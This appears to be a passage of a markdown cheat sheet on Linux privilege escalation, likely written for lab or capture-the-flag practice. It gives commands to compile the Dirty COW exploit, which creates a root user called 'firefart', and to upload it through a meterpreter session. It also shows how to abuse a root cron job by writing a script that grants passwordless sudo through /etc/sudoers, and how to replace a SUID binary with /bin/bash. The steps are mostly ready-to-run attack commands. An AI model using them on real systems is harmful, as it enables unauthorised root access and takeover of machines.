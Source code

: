 > This script works as the exploit suggester for linux.

```console
https://www.exploit-db.com/exploits/40839
```

> This link has the exploit for the dirty cow vulnerability.

```Shell
gcc -pthread <exploit-file-name>.c -o dirty -lcrypt
chmod +x dirty
```

> This forms the executable of the given file by the name `dirty`. After this upload the file on the machine using the meterpreter session.

***IF IT ISN'T WORKING YOU CAN THEN UPLOAD THE C FILE DIRECTLY ON TO THE MACHINE AND THEN RUN THESE COMMADS THERE TO FORM AND EXECUTABLE***

> After the script has ran successfully it will create a user by the name `firefart` that would have the root privileges.

#### Cron Jobs

> We will be targeting Cron Jobs that have been created by the `root` user in order to escalate our privileges.

```Shell
crontab -l
```

> The command to display the list of scheduled cron jobs for the current user is

```Shell
grep -nri “/tmp/message” /usr
```

> The command is used to search for the string `"/tmp/message"` within files located under the `/usr` directory.

```Shell
printf '#! /bin/bash\necho "student ALL=NOPASSWD:ALL" >> /etc/sudoers' > /usr/local/share/copy.sh
```

> Exploiting the cron jobs misconfiguration.

#### Exploiting SUID Binaries:

***SET OWNER USER ID***

```Shell
| -rwsr-xr-x | 1 | root  |  8344 | Sep 222  |  2018 | welcome
```

> Now here the `s` in the permissions section is the `SUID` permission. So that means it is being executed by the root privileges. 

```Shell
rm <file-name>
cp /bin/bash <file-name>
```
